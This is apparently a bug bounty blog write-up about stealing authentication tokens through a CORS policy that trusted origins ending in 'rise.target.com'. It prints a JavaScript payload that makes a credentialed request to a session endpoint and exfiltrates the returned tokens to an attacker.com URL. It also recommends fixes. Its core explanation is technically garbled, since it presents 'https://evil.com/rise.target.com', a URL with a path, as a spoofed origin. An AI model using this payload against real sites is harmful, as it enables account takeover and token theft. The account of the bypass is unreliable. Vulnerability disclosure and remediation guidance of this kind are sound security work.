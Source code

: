 ```yaml
---
title: Auth Token Theft via CORS Misconfiguration
description: "A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and Access-Control-Allow-Credentials: true."
date: 2025-03-08
tags:
  - cors
  - auth-token-theft
  - access-control
  - bug-bounty
  - web-security
---
```


# How a CORS Misconfiguration Could Have Let Me Steal Auth Tokens

In this post, I’ll walk you through a **CORS misconfiguration vulnerability** I discovered that allowed me to **steal authentication tokens**, **impersonate users**, and access sensitive data — all with a few lines of JavaScript. This bug stemmed from a subtle but dangerous CORS policy misconfiguration.

---

## 🧠 Background: What Is CORS?

**CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts how websites from one origin can interact with resources from another. If not configured properly, it can unintentionally expose APIs to malicious sites.

---

## 🚩 The Vulnerability

The API I tested had the following CORS behavior:

* It allowed any origin that **ended with** a trusted subdomain like `rise.target.com`
* It also responded with:

  ```
  Access-Control-Allow-Credentials: true
  Access-Control-Allow-Origin: https://evil.com/rise.target.com
  ```

That meant **any malicious domain** that crafted a similar subdomain (e.g., `https://evil.com/rise.target.com`) could **bypass origin checks** and access sensitive API responses.

---

## 🔬 Testing the Exploit

I hosted a malicious site at:

```
https://evil.com/rise.target.com
```

Then, I injected this simple payload:

```javascript
fetch("https://id.target.com/v1/session/rise/switch/", {
  method: "GET",
  credentials: "include" // Sends victim's cookies
})
.then(res => res.json())
.then(data => {
  // Exfiltrate session data to my server
  fetch("https://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data)));
});
```

When a logged-in victim visited my page, their browser:

* Automatically sent their session cookie (`HERMES_ID`)
* The API accepted my domain (since it *looked* trusted)
* The response included **valid tokens and user metadata**
* The data was silently exfiltrated to my server

---

## 📸 Evidence

Here’s a look at what I received:

* ✅ Valid `access_token`
* 🧑‍💼 User profile information
* 🔐 Authenticated session context

![POC](/assets/writeups/2.png)

---

## 🛡️ Fix Recommendations

To fix this kind of issue, here’s what I recommended:

### 1. **Strict CORS Origin Checks**

Only allow exact origins:

```http
Access-Control-Allow-Origin: https://rise.target.com
```

Avoid dangerous patterns like:

```js
if (origin.endsWith('rise.target.com')) // ❌
```

### 2. **Secure Cookies with SameSite**

Use this to block cross-origin cookies:

```http
Set-Cookie: HERMES_ID=abc; Secure; HttpOnly; SameSite=Strict
```

### 3. **Avoid Allowing Credentials Loosely**

Only use:

```http
Access-Control-Allow-Credentials: true
```

...if you’re absolutely sure the origin is trusted.

---

## 🎯 Impact

This misconfiguration could allow:

* Complete **account takeover**
* Unauthorized **GraphQL or API access**
* Exploitation from **any malicious website** with a spoofed subdomain

---

## 🔚 Final Thoughts

CORS misconfigurations are subtle and often overlooked — but their impact can be critical. This vulnerability didn’t need a single line of backend code to be touched by the attacker. Just a cookie, a misconfigured header, and a clever origin were enough.

If you're building or reviewing APIs, **always test your CORS logic** under real attack scenarios. What seems safe on paper might leak tokens in practice.

---

💬 Have you seen similar CORS issues in the wild? Let's connect on [Twitter](https://twitter.com/00xmora), or [LinkedIn](https://linkedin.com/in/00xmora).

---